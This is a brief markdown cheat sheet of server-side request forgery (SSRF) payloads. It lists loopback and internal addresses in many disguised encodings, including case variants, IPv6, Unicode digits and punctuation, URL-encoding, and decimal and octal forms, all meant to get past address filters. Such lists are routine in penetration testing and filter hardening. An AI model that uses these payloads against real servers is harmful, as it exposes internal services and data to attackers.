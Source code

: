 # SSRF Payloads

>Server side request forgery  

```
127.0.0.1
127.1
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```  
